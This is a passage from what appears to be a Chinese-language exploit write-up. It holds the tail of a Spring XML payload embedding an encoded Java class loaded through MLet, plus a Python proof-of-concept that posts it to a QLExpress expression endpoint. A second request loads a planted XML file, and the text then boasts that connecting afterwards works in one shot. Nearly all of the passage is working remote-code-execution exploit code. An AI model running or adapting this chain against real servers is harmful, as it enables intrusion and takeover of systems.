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'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).newInstance()}" />
    </bean>
    
</beans>
```

poc.py:

```python
import requests
import os
import base64

with open('exp.xml', 'rb') as file:
    file_content = file.read()
    encoded_content = base64.b64encode(file_content)
    print(encoded_content.decode('utf-8'))


    ur1 = "http://127.0.0.1:8083/ql/express"
    print("first")

    print(requests.post(url=ur1,data={"payload":encoded_content.decode('utf-8')}).text)

    original_string = 'java.lang.Integer.valueOf(new org.springframework.context.support.ClassPathXmlApplicationContext("file:///tmp/PGJ.txt"))'
    bytes_string = original_string.encode('utf-8')
    encoded_string = base64.b64encode(bytes_string)
    encoded_string = encoded_string.decode('utf-8')

    print("second")


    print(requests.post(url=ur1,data={"payload":encoded_string}).text)

```

执行后连接，一发入魂：


